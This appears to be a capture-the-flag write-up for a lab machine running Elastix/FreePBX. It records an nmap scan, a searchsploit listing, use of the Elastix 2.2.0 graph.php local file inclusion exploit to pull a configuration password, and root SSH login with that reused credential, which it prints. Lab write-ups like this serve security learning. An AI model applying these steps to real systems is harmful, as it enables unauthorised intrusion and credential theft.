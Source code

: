 USER & ROOT FLAG
-----

1. Scan with nmap `nmap -T4 --min-rate 5000 -sV -A -o beep 10.10.10.7`
2. Find a lot of open ports, but first try to access to the web page
3. See that we can't access in the 80 port, but we can in the 443 port
4. Port 443 uses a TLS version 1.0, so we need to change the configuration in firefox
5. Go into `about:config` and set `security.tls.version.min` to `1`
6. Enter the page
7. Run discovery
8. Find /admin page and FreePBX 2.8.1.4
9. In /recordings is FreePBX 2.5
10. Run searchsploit for elastix
11. Use the exploit `Elastix 2.2.0 - 'graph.php' Local File Inclusion`
12. Read the code and obtain the route that contains the configuration file
13. Obtatin the password
14. Try to access via SSH
15. Find this (https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found)
16. Try to access with `ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@<IP>
17. Use the password that worked in the web page
18. Obtain the user flag
19. Obtain the root flag

## Info

In firefox:
I needed to go to `about:config` and set `security.tls.version.max` to `1` to get the page to load.

Then we can retrieve the TLS version

![tls](tls.png)

```bash
searchsploit elastix
```

```
Elastix - 'page' Cross-Site Scripting                                                                                                             | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                                           | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                                     | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                  | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                                 | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                                | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                            | php/webapps/18650.py
```

```bash
searchsploit -x php/webapps/37637.sh >> 37637.pl
perl 37637.pl
```

## Conclusion

Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                  | php/webapps/37637.pl

Webpage:

Username: `admin`
Password: `jEhdIekWmdjE`

SSH:

root@<IP>
Password: `jEhdIekWmdjE`

## Links

- https://www.3cx.com/community/threads/default-passwords-not-password.90259/
- https://www.foxcloud.net/kb/applications-and-solutions/virtual-pbx/how-to-change-the-default-password-to-elastix.php
- https://stackoverflow.com/questions/60447488/sqlmap-cant-establish-ssl-connection-need-solution
- https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found